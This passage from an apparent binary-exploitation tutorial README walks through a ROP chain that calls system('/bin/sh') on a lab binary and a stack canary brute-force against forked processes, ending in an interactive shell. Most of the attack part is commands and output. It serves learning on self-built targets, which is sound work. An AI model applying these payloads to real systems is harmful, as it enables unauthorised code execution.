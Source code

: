 ```bash
Searching for ROP gadget: 'pop rdi; ret' in: binary ranges
0x0040124d : (b'5fc3')	pop rdi; ret
```
6. Search for "ret" gadger
```bash
gdb-peda$ ropsearch "ret"
Searching for ROP gadget: 'ret' in: binary ranges
0x0040101a : (b'c3')	ret
```
7. Search for "/bin/sh" string:
```bash
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 4 results, display max 4 items:
stack_overflow_bypass_aslr : 0x402004 --> 0x68732f6e69622f ('/bin/sh')
```
8. Assemble exploit (pop_rdi_ret + bin_sh + ret + system_plt):
```bash
$ (python3 -c "import sys; sys.stdout.buffer.write(b'A' * 88 + b'\x4d\x12\x40\x00\x00\x00\x00\x00' + b'\x04\x20\x40\x00\x00\x00\x00\x00' + b'\x1a\x10\x40\x00\x00\x00\x00\x00' + b'\xe0\x10\x40\x00\00\x00\x00\x00' + b'\n')"; cat) | ./stack_overflow_bypass_aslr
```

## Bypass Stack Canary
We'll be using brute force to reveal canary value byte by byte. This works only if the atacked applciation have forked child processes. Forked child processes have the same canary value and they could easily be resterated without restarting parent process. So we can select canary byte by byte using only 7 * 256 = 1792 tries. Use python + pwntools.
```bash
$ ./bypass_canary.py 
[+] Starting local process './build/stack_overflow_bypass_canary': pid 65259
[+] Found right byte 0x0
[+] Found right byte 0x18
[+] Found right byte 0x5e
[+] Found right byte 0x8c
[+] Found right byte 0xb
[+] Found right byte 0x16
[+] Found right byte 0x10
[+] Found right byte 0xe5
Found canary value: 00185e8c0b1610e5
[*] Switching to interactive mode
$ id
uid=1000(talantov) gid=1000(talantov) groups=1000(talantov),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare)
$ ls
all.txt          peda-session-stack_overflow_bypass_canary.txt
build          README.md
bypass_canary.py  shellcode.c
bypass_pie.py      stack_overflow_bypass_aslr.cpp
CMakeLists.txt      stack_overflow_bypass_canary.cpp
dump          stack_overflow_bypass_nx.cpp
getenvvar.c      stack_overflow.cpp
mysh.c          test.py
payload
$  
```
